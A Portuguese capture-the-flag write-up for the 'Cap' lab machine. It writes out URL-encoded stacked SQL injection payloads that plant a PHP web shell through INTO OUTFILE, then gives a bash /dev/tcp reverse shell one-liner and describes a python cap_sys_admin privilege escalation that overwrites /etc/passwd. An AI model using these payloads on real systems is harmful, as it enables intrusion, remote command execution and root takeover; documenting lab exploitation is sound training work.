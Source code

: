 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Cap"
tags: pt-br ctf write-up
---
```

<script async src="https://www.googletagmanager.com/gtag/js?id=G-72MZ89K41P"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-72MZ89K41P');
</script>
Essa máquina foi feita pelo Kadu para a classificatória do UHCv35.

# Recon

Iniciando o desafio e pegando a url podemos observar que ele tem uma página um tanto quanto estranha, parece ser uma API, já que retorna um objeto JSON:

![/assets/cap/Untitled.png](/assets/cap/Untitled.png)

Vamos então partir direto para o fuzzing, vou rodar a wordlist common.txt e a quiclhits.txt:

common.txt:

![/assets/cap/Untitled%201.png](/assets/cap/Untitled%201.png)

quickhits.txt:

![/assets/cap/Untitled%202.png](/assets/cap/Untitled%202.png)

Achamos um arquivo de backup! Vou baixar e abrir no visual studio code.

![/assets/cap/Untitled%203.png](/assets/cap/Untitled%203.png)

Hora de debugar!

Esse código basicamente é uma tentativa de um tipo de API para interagir com algum tipo de banco de dados, ele pega informações de databases e é capaz de inserir informações também, podemos perceber que ele usa um micro framework chamado Slim. ([https://www.slimframework.com/docs/v2/](https://www.slimframework.com/docs/v2/))

Essa parte envolve muito code review, que é inclusive o nome do challenge da primeira flag. Fui testando tudo e lendo os erros (debug mode estava ativo).

Dando uma lida e debugando um pouco podemos perceber que existe uma rota dessa api que faz uma consulta no banco de dados na tabela usuarios.

Rota:

```bash
https://cap.uhclabs.com/_ul/uploads/0
```

Código:

![/assets/cap/Untitled%204.png](/assets/cap/Untitled%204.png)

Basicamente aonde está escrito :controller é aonde vamos inserir o nome do arquivo que contém a classe que vamos usar, no caso vamos ussar o usuarios.class.php, e :parametrer sera o $data que será passado na query da consulta como podemos ver aqui:

![/assets/cap/Untitled%205.png](/assets/cap/Untitled%205.png)

Agora vamos rodar:

Testei alguns ids e no 2 temos a primeira flag hehe:

![/assets/cap/Untitled%206.png](/assets/cap/Untitled%206.png)

Certo, como podemos perceber no código, nossos parâmetros não passam por nenhum tipo de tratamento, obviamente o site está vulnerável a Sql injection.

![/assets/cap/Untitled%207.png](/assets/cap/Untitled%207.png)

Então vamos ver o que podemos fazer aqui.

# Exploitation 
## Sql Injection

Podemos observar que o banco de dados usado é o MariaDB.

Vamos começar tentando mandar querys para a aplicação.

Para demonstrar o que está acontecendo irei mostrar as payloads e como a query está sendo executada no site.

- A primeira coisa que irei fazer vai ser tentar adicionar um usuário, ja que temos o código sabemos o nome da tabela...

```bash
cap.uhclabs.com/_ul/usuarios/1;insert%20into%20usuarios%20(nome)%20values%20('big0us')
```

Com um Url encode na nossa payload se enviarmos, a query ficará assim:

```sql
SELECT * from usuarios where id=1; insert into usuarios (nome) values ('big0us');
```

Enviando mais algumas vezes podemos ver que nosso usuário já está no banco de dados com a seguinte rota:

```
cap.uhclabs.com/_ul/usuarios/0
```

- No MariaDB existe um comando que possibilita salvar o resultado da query em um arquivo...
- Lendo o código fonte, podemos abrir arquivos que estiverem no /classes/ apenas enviando um request POST, com o nome do arquivo sem o .classes e sem o .php...

![/assets/cap/Untitled%208.png](/assets/cap/Untitled%208.png)

- Se pudermos salvar arquivos de consultas de querys em qualquer diretório e podemos escrever e rodar arquivos no servidor, temos tudo para conseguir um RCE. Mas como?
- (Existem várias formas de fazer isso vou descrever como eu fiz)
- Já que posso criar um usuário, vou criar um usuário contendo um código php no nome, assim quando eu jogar isso para dentro de um arquivo, será executado... Então vamos as payloads:

URL:

```
cap.uhclabs.com/_ul/usuarios/1;1%3Bselect%20into%20usuarios%20%28nome%29%20values%20%28%27%3C%3Fphp%20system%28%24%5FGET%5B0%5D%3F%3E%27%29%29
```

Query:

```sql
select into usuarios (nome) values ('<?php system($_GET[0]?>'))
```

E agora com o usuário criado, vamos fazer uma consulta que retorne o nome do usuário, e salvar isso em um arquivo... (dei o nome de "u")

URL:

```
cap.uhclabs.com/_ul/usuarios/1%3Bselect%20%2A%20from%20usuarios%20into%20outfile%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fu%2Eclass%2Ephp%27
```

Query: 

```sql
select * from usuarios into outfile '/var/www/html/classes/u.class.php'
```

Agora que já montamos nosso arquivo malicioso vamos ao request:

![/assets/cap/Untitled%209.png](/assets/cap/Untitled%209.png)

Agora que temos RCE vamos pegar uma shell.

# Pós exploitation 
## Root Capability

Utilizei uma payload simples encodada em url encode:

```bash
bash -c "bash -i >& /dev/tcp/ip/porta 0>&1"
```

![/assets/cap/Untitled%2010.png](/assets/cap/Untitled%2010.png)

```
Full tty shell
in your shell~ python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
in your terminal~ stty raw -echo; fg
ENTER
in your shell~ export TERM=xterm
```

Indo até o / podemos encontrar nossa flag!

![/assets/cap/Untitled%2011.png](/assets/cap/Untitled%2011.png)

Rodando alguns comandos de enumeração logo pude encontrar qual é a vulnerabilidade do priv esc (o linpeas teria achado), o comando que eu rodei para encontra-la é o getcap, que mostra para nós os capabilities que os binários do linux possuem.

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![/assets/cap/Untitled%2012.png](/assets/cap/Untitled%2012.png)

Podemos ver que o python está com um capability chamado sys_admin, dando uma olhada no hacktricks sobre como explorar isso, podemos ver que existe uma forma de sobrescrevermos o arquivo /etc/passwd adicionando uma senha que nós sabemos para o usuário root.

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin)

![/assets/cap/Untitled%2013.png](/assets/cap/Untitled%2013.png)

Exploitation:

![/assets/cap/Untitled%2014.png](/assets/cap/Untitled%2014.png)

![/assets/cap/Untitled%2015.png](/assets/cap/Untitled%2015.png)

![/assets/cap/Untitled%2016.png](/assets/cap/Untitled%2016.png)

![/assets/cap/Untitled%2017.png](/assets/cap/Untitled%2017.png)

Depois de rodar o exploit damos um:

![/assets/cap/Untitled%2018.png](/assets/cap/Untitled%2018.png)

E ai está nossa flag, parabéns kadu pela máquina e obrigado a você que leu até aqui!